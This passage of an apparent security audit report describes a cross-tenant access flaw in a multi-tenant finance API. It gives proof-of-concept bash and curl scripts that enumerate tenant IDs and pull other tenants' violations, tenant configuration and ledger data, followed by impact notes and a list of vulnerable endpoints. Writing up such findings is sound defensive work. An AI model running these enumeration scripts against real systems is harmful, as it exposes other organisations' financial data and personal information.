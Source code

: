**Attack Scenario 2: Systematic Data Extraction**

```bash
#!/bin/bash
# Attacker enumerates ALL tenants and extracts data

TOKEN="<attacker-token-tenant-a>"

# Guess/enumerate tenant IDs (UUIDs, sequential IDs, or from another source)
for tenant_id in tenant-a tenant-b tenant-c tenant-001 tenant-002; do
  echo "Trying tenant: $tenant_id"

  # Attempt to access violations
  curl -s http://localhost:3000/api/modules/sod/$tenant_id/violations \
    -H "Authorization: Bearer $TOKEN" | jq '.'

  # Attempt to access tenant details
  curl -s http://localhost:3000/api/admin/tenants/$tenant_id \
    -H "Authorization: Bearer $TOKEN" | jq '.'
done
```

**Attack Scenario 3: Financial Data Breach**

```bash
# Attacker accesses GL anomalies from all tenants
curl http://localhost:3000/api/modules/gl-anomaly/victim-tenant/anomalies \
  -H "Authorization: Bearer $TOKEN"

# ⚠️ Returns financial transaction data from victim tenant
```

#### Impact

1. **Multi-Tenant Data Breach:** Single attacker can access ALL tenants' data
2. **Financial Data Exposure:** GL transactions, invoices, purchase orders from all tenants
3. **PII Breach:** User data, employee information across all tenants
4. **Compliance Violation:** SoD violations, audit logs from competing companies
5. **Data Modification:** Attacker may modify/delete other tenants' data

#### Affected Endpoints

**Confirmed Vulnerable (via code review):**
1. `GET /api/modules/sod/:tenantId/violations` - Cross-tenant SoD violation access
2. `GET /api/modules/sod/:tenantId/violations/:violationId` - Specific violation access
3. `GET /api/modules/sod/:tenantId/analysis` - Analysis results
4. `POST /api/modules/sod/:tenantId/analyze` - Trigger analysis (DoS potential)
5. `GET /api/admin/tenants/:tenantId` - Tenant configuration & credentials
6. `PUT /api/admin/tenants/:tenantId` - Modify tenant config
7. `DELETE /api/admin/tenants/:tenantId` - Delete tenant

**Likely Vulnerable (requires Phase C verification):**
8. `/api/modules/gl-anomaly/:tenantId/*` - Financial data
9. `/api/modules/vendor-quality/:tenantId/*` - Vendor data
10. `/api/matching/:tenantId/*` - Invoice matching data
11. `/api/analytics/:tenantId/*` - Analytics data
12. `/api/dashboard/:tenantId/*` - Dashboard data
13. `/api/audit/:tenantId/*` - Audit logs
14. `/api/reports/:tenantId/*` - Report generation
